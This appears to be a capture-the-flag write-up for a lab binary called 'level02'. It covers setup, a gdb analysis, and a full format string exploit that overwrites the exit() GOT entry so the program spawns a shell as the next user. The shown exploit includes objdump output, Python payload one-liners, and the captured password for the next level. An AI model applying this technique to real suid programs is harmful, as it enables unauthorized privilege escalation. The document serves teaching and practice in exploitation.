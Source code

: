 # Level02

## Setup
 * There is one file in our home, ```level02```, belonging to ```level03``` user, with suid.
 * Here's the hand-decompiled source code we propose for this binary: [source.c](source.c)

 * We run the program with gdb and we observe that:
	* `main()` will get 2 user inputs through `fgets()` which is correctly protected
		* 1st user input is of `0x64`
		* 2nd user input is of `0x64`, and ask the user for the password. It's the highest buffer on the `main()` stack 
			* If correct:
				* it will execute `system("/bin/sh")`
			* If incorrect:
				* it uses the 1st input as a `printf format string`
				* and then call `exit()`
	
## Resolution
 * We will use the `format string vulnerability`

 * We want `rip` to become `0x00400a85`, or `4196997` in decimal,  so it executes `system("/bin/sh")`

```sh
objdump -D -M intel ./level02
...
400a85:	bf 32 0d 40 00       	mov    edi,0x400d32
400a8a:	e8 21 fc ff ff       	call   4006b0 <system@plt>
...
```

 * To modify `rip` we want to make use of the `Dynamic Relocation` by changing the address associated with the `jmp`, here it's `0x0000000000601228`

 ```sh
 objdump -R level02

level02:     file format elf64-x86-64

DYNAMIC RELOCATION RECORDS
OFFSET           TYPE              VALUE 
...
0000000000601228 R_X86_64_JUMP_SLOT  exit
...
 ```

* With the `format string vulnerabity`, we want to go through multiple arguments with `%lx`. As it's x86_64, we need to take into account the registers used as arguments, there will be a total of `7 arguments to pass`.
* And we will have to write a total of `4196997` characters before using `%n`

 ```sh
python -c "print(                                               
'%016lx' +
'%016lx' +                          
'%016lx' +
'%016lx' +
'%016lx' +
'%016lx' +
'%0' + str(4196997 - (16 * 6)) + 'lx' +
'%n'
)" > /var/crash/level02_1st_arg
 ```

* We then write our address in the 2nd argument:

 ```sh
python -c "print(                                                  
'\x00\x00\x00\x00\x00\x60\x12\x28'[::-1] 
)" > /var/crash/level02_2nd_arg
 ```

 * We can now execute the vulnerability:

 ```sh
cat /var/crash/level02_1st_arg /var/crash/level02_2nd_arg - | ./level02
...
cd ../level03
cat .pass
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
 ```



